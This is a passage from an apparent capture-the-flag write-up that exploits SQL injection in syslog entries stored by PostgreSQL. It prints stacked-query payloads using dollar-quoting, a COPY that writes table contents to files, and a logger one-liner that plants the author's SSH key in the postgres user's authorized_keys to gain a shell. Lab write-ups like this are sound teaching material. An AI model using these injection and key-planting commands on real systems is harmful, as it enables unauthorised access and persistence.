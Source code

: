 I can add a error after the last `;` to get it to dump what it’s seeing:

```

2019-09-01 14:11:34.881 EDT [15740] postgres@syslog ERROR:  syntax error at or near "0" at character 144
2019-09-01 14:11:34.881 EDT [15740] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;0xdf-- -','2019-09-01 18:11:34')

```

The escaped `$` worked!

### Shell

There are a few ways to go from this injection to a shell. I’ll show two.

#### Write an SSH Key

In `/etc/passwd`, the postgres user has a shell and a home directory:

```

postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

```

And, the home dir has a `.ssh` directory:

```

roy@zetta:/var/log/postgresql$ ls -la /var/lib/postgresql/
total 24
drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
-rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
-rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
drwx------  2 postgres postgres 4096 Jul 27 06:40 .ssh

```

I can, with three queries to the database, write my public key file into `.ssh/authorized_keys`, and then ssh into the box as postgres.

The three queries are:
- `CREATE TABLE IF NOT EXISTS oxdf (mycol text);`
- `INSERT INTO oxdf(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$);`
- `COPY (SELECT * from oxdf) To \$$/var/lib/postgresql/.ssh/authorized_keys\$$;`

The first create a table. The next puts my key into it. The final one writes that to a file. I can stack that all together and run:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS aaa (mycol text); INSERT INTO aaa(mycol) VALUES (\$$ ssh-rsa AAAAB3NzaC...[snip]...YQC3rRDiG5P root@kali\$$); COPY (SELECT * from aaa) To \$$/var/lib/postgresql/.ssh/author
ized_keys\$$;-- -"

```
